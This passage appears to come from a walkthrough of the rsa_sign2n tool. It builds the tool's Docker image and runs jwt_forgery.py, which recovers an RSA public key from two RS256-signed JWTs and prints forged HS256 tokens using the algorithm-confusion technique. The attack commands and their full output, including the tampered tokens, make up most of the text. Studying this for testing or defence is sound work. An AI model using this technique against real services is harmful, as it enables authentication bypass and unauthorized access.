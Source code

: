I then noticed a `Dockerfile` inside the `standalone` folder.

Yay!  I love Docker since it allows the package author to distribute a docker image that will have all of the dependencies it needs already correctly configured.  This solves the "it works on my computer but not on your computer" problem.

So, let's create this Docker image.

This assumes you've installed Docker already and are cd'd into the `rsa_sign2n/standalone` folder:

## Setup Attempt 2
```
# builds the image
docker build . -t sig2n

# starts the container and gives me a bash shell
docker run -it sig2n /bin/bash
```

This gives me a bash prompt like this:
```
root@2b3885dcfaca:/app#
```

## Execution Attempt 2
```
root@732dc2a48bc8:/app# python3 jwt_forgery.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhZG1pbiI6ZmFsc2UsIm5vdyI6MTYzMjUzNjcyMC41NjkyMTk4fQ.DGGgcbIX160FUcUr6JWLn8HLGQM3n_DuIQ0tDx0AcTKXr_72_Z6LdMFo33yScKiobGFpjzlAg6lDMsCa4UkJqQfteA38Mo74B7ITHpjh0tnXrxejm20F-X23kTkKT_SLVw eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhZG1pbiI6ZmFsc2UsIm5vdyI6MTYzMjUzNjc0MS40NDAyMzA0fQ.DxCSrEVez5gtm_Xfjq1eaiGRf5PKNeYXti3loMHYMURKQdjILlp1dZlCSed1Y4R1B9mOsbAujxOYCLsdjQhzIbLV04XHZ96UOXH0dXaqNTb_PBxCsZ5ELs_CFX6qNm9MJA

[*] GCD:  0x1d
[*] GCD:  0x108b7c75aee1e2b9df3692a2cc54b100d111002193ebc9c3cf575e4b16f595cc28d9b47a65d1f3774aa3db05649085589230fe23bfcc2ef876b4134dafde4484d7bde8c9b80016d9c9aed53a0334ae3483cc833374301e1a7829a5f5800a793803
[+] Found n with multiplier 1  :
 0x108b7c75aee1e2b9df3692a2cc54b100d111002193ebc9c3cf575e4b16f595cc28d9b47a65d1f3774aa3db05649085589230fe23bfcc2ef876b4134dafde4484d7bde8c9b80016d9c9aed53a0334ae3483cc833374301e1a7829a5f5800a793803
[+] Written to 108b7c75aee1e2b9_65537_x509.pem
[+] Tampered JWT: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0._rQf-v9lQvZInV6MBEjkBqzuEcPtx-gaobU0oHtjpHY'
[+] Written to 108b7c75aee1e2b9_65537_pkcs1.pem
[+] Tampered JWT: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0.-xQ_LSF9jJaAEdd2PCgPZjZVwlX8wAD4H2P7lTZOw84'
[+] Found n with multiplier 29  :
 0x920d1e8a71b85eaf6bd01744d6c84f79f7c2361f955f3bb7b3907e2cedfc567cfeadf290c09e76df43717bc5acb5265d51233f069d1c1a390f097e43db86c6c9a571f54cf72ced06f45fa0e5a0b68f0d5f53f8f259ef620424bf1a1ee5e0de9f
[+] Written to 920d1e8a71b85eaf_65537_x509.pem
[+] Tampered JWT: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0.V1XnPFpwKbK3IuFNChLZU0XkvMUyzjIKwSVQEyjIqIs'
[+] Written to 920d1e8a71b85eaf_65537_pkcs1.pem
[+] Tampered JWT: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0.a1fUyscIftGuetBSD1OnIKKY8p-DjMB6sIMJibWpnpM'
================================================================================
Here are your JWT's once again for your copypasting pleasure
================================================================================
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0._rQf-v9lQvZInV6MBEjkBqzuEcPtx-gaobU0oHtjpHY
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0.-xQ_LSF9jJaAEdd2PCgPZjZVwlX8wAD4H2P7lTZOw84
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0.V1XnPFpwKbK3IuFNChLZU0XkvMUyzjIKwSVQEyjIqIs
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6IGZhbHNlLCAibm93IjogMTYzMjUzNjcyMC41NjkyMTk4LCAiZXhwIjogMTYzMjYyMzE5OX0.a1fUyscIftGuetBSD1OnIKKY8p-DjMB6sIMJibWpnpM
```